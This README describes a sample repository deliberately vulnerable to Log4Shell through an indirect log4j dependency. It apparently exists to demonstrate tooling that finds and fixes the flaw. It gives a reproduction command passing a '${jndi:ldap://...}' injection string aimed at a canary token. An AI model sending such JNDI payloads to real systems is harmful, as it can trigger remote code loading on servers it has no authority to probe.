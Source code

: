 # sample-vulnerable-log4j-indirect-app

This repository is a sample repository that is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) because it indirectly depends on a vulnerable version of log4j via its dependency on https://github.com/sgtest/sample-vulnerable-log4j-direct-lib.

## Repro of vulnerability

First, visit http://canarytokens.org/ and create a new Log4Shell token (that emails you when it gets triggered). Then run the following command in this repository, where the `--args` value is the `${jndi:...}` value that you got when creating the canary token.

``` shell
./gradlew run --args='${jndi:ldap://some.host.example.com/}'
```

You will get an email that your canary token was triggered when you run that command (if the vulnerable log4j version is used).

## Related repositories

The following repositories are used to demonstrate Sourcegraph functionality related to fixing [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228):

- https://github.com/sgtest/sample-vulnerable-log4j-direct-app
- https://github.com/sgtest/sample-vulnerable-log4j-direct-lib
- https://github.com/sgtest/sample-vulnerable-log4j-indirect-app